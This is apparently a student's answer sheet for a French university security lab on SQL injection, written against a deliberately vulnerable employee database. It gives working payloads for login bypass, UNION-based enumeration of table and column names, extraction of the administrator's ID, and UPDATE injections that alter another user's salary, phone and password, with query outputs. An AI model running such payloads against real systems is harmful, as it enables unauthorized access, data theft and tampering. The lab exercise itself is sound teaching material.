

`Editor: Yuxin SHI 18/03/2018`
`[TD3 exercices1]`
# Sécurité des systèmes d’information

1. Réaliser une injection sql qui permet de s’authentifier en tant que Boby. Pour
cette question nous supposons que disposez de l’ID de Boby qui est 20000.
```sql
20000';#
```
2. Réaliser une injection sql qui permet de s’authentifier sans connaitre aucun ID.
Quelle est l’employé affecté par cette attaque ?
```sql
'OR (1 = 1); #
```
3. Répéter l’attaque précédente pour obtenir des information sur chaque employé.
```sql
/* index 12 to 20 line*/
UNION SELECT NULL, NULL, NULL LIMIT 12,20
OU
'OR (1 = 1) LIMIT 12, 20; #
```
4. Pour cette question, on souhaite se connecter en tant d’administrateur sans connaitre son ID. On sait uniquement que "Admin" est le nom utilisé par l’administrateur.
L’approche de la question précédente peut être fastidieuse si le nombre d’employé
est élevé. Pour cette question on pourra procéder comme suit :
(a) Faire une injection SQL permettant de récupérer le nom de la table.

```sql
# Reference:
SELECT table_name FROM information_schema.tables WHERE table_schema = database();
# 使用以下语句语句得到所有的数据库名'
'AND (1=2) UNION (SELECT 1, 2, 3, 4, 5, 6, 7, 8, table_name, 9, 10 FROM information_schema.tables WHERE table_schema = database()) ORDER BY 11 LIMIT 1,2;#
/*Effect where limit 1,2 choose second line of table:
Employee ID	3
Salary	4
Birth	5
SSN	6
NickName	9
Email	secret
Address	8
Phone Number	7*/
```
(b) Faire une injection SQL permettant de récupérer le nom des différentes colonnes
de la table.
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'credential' and table_schema= database();
+-------------+
| column_name |
+-------------+
| ID          |
| Name        |
| EID         |
| Salary      |
| birth       |
| SSN         |
| PhoneNumber |
| Address     |
| Email       |
| NickName    |
| Password    |
+-------------+
'
'AND (1=2) UNION (SELECT 1, 2, 3, 4, 5, 6, 7, 8, group_concat(column_name), 9, 10 FROM information_schema.columns WHERE table_schema = database() AND table_name = 'credential') ORDER BY 11;#
/* EFFECTS:
Employee ID	3
Salary	4
Birth	5
SSN	6
NickName	9
Email	ID,Name,EID,Salary,birth,SSN,PhoneNumber,Address,Email,NickName,Password
Address	8
Phone Number	7 */
```
(c) Faire une injection SQL permettant de récupérer l’ID de l’administrateur.
```sql
'
'AND(1=2) UNION (SELECT 1, 2, 3, 4, 5, 6, 7, 8, EID, 9, 10 FROM credential WHERE
Name = 'Admin'); #
/*
Employee ID	3
Salary	4
Birth	5
SSN	6
NickName	9
Email	99999
Address	8
Phone Number	7
*/'
```
(d) Faire une injection SQL permettant de se connecter en tant qu’administrateur.
```sql
'
'AND (1=2) UNION (SELECT * FROM credential WHERE EID = 99999);#
99999';#
```
5. En vous inspirant de la question précédente, obtenez une information contenue
dans une autre table de la base. Quelle bonne pratique aurait pu limiter l’impacte
de votre attaque ?
> Ajouter une contrainte sur la page loggin, par exemple, il n'y a que les chifferes sont acceptes.

## Injection SQL (update)
1. Réaliser une injection sql qui permet à Ryan de modifier son salaire. Pour cette on connait l’EID de Ryan (30000) ainsi que son mot de passe (seedryan).

```sql
Ryan' , Salary=100 WHERE EID=30000;#
```

2. Réaliser une injection sql qui permet à Alice de modifier de numéro de téléphone de Ryan.
```sql
Ryan', PhoneNumber = '00000000' WHERE Name='Ryan';#
```

3. Est-ce que Alice peut modifier le mot de passe de Ryan ?
```sql
# executer dans le inputtext de password'
Ryan',Password = 'pwd' WHERE EID=30000;#
```
